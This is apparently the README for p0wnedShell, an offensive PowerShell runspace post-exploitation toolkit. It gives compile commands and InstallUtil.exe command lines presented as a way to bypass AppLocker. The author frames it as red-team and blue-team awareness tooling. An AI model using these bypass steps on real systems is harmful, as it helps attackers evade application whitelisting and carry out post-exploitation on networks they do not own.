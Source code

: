 # p0wnedShell
PowerShell Runspace Post Exploitation Toolkit 

### Author: Cn33liz

License: BSD 3-Clause

### What is it:

p0wnedShell is an offensive PowerShell host application written in C# that does not rely on powershell.exe but runs powershell commands and functions within a powershell runspace environment (.NET). It has a lot of offensive PowerShell modules and binaries included to make the process of Post Exploitation easy-er.
What I tried was to build an “all in one” Post Exploitation tool which I could use to bypass all mitigations solutions (or at least some off), and that has all relevant tooling included. 
You can use it to perform modern attacks within Active Directory environments and create awareness within your Blue team so they can build the right defense strategies.

### How to Compile it:

To compile p0wnedShell you need to import this project within Microsoft Visual Studio or if you don't have access to a Visual Studio installation, you can compile it as follows:

To Compile as x86 binary:

```
cd \Windows\Microsoft.NET\Framework\v4.0.30319

csc.exe  /unsafe /reference:"C:\p0wnedShell\System.Management.Automation.dll" /reference:System.IO.Compression.dll /win32icon:C:\p0wnedShell\p0wnedShell.ico /out:C:\p0wnedShell\p0wnedShellx86.exe /platform:x86 "C:\p0wnedShell\*.cs"
```

To Compile as x64 binary:

```
cd \Windows\Microsoft.NET\Framework64\v4.0.30319

csc.exe  /unsafe /reference:"C:\p0wnedShell\System.Management.Automation.dll" /reference:System.IO.Compression.dll /win32icon:C:\p0wnedShell\p0wnedShell.ico /out:C:\p0wnedShell\p0wnedShellx64.exe /platform:x64 "C:\p0wnedShell\*.cs"
```

p0wnedShell uses the System.Management.Automation namespace, so make sure you have the System.Management.Automation.dll within your source path when compiling outside of Visual Studio.

### How to use it:

Just the run the executables or...

To run as x86 binary and bypass Applocker (Credits for this great bypass go to Casey Smith aka subTee):

```
cd \Windows\Microsoft.NET\Framework\v4.0.30319 (Or newer .NET version folder)

InstallUtil.exe /logfile= /LogToConsole=false /U C:\p0wnedShell\p0wnedShellx86.exe
```

To run as x64 binary and bypass Applocker:

```
cd \Windows\Microsoft.NET\Framework64\v4.0.30319 (Or newer .NET version folder)

InstallUtil.exe /logfile= /LogToConsole=false /U C:\p0wnedShell\p0wnedShellx64.exe
```

### Shout-outs:

p0wnedshell is heavily based on tools and knowledge from people like harmj0y, the guys from Powersploit, Sean Metcalf, SubTee, Nikhil Mittal, Besimorhino, Benjamin Delpy e.g. So shout-outs go to them and of course to our friends in Redmond for giving us access to a very powerfull hacking language.

### Contact:

To report an issue or request a feature, feel free to contact me at:
Cornelis ```at``` dePlaa.com or [@Cneelis](https://twitter.com/Cneelis)

